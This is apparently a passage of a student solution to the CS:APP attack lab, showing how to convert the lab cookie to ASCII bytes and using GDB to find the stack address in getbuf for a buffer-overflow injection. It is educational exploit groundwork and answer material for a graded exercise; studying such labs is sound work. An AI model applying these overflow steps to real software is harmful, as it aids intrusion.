 ```GDB
   0x0000000000401959 <+95>:    callq  0x401d4f <fail>
   0x000000000040195e <+100>:   mov    $0x0,%edi
   0x0000000000401963 <+105>:   callq  0x400e40 <exit@plt>
End of assembler dump.


```




# Solution 

1. get the inject string
cookies: 0x59b997fa 
convert cookies to string with 8 chars
remove 0x ->                 (lower address)   5  9  b  9  9  7  f  a  (high address)
convert char to hex by ascii:                 35 39 62 39 39 37 66 61
convert to 8 bytes to value: (high address)   0x6166373939623935       (lower address)

2. get the rsp register address when return getbuf

```shell
gdb ctarget
```

```gdb
(gdb) b getbuf
(gdb) run -q
(gdb) disas
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq   
End of assembler dump.

(gdb) info r rsp
rsp            0x5561dca0          0x5561dca0
(gdb) n
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
=> 0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq   
End of assembler dump.

(gdb) info r rsp
rsp            0x5561dc78          0x5561dc78
```
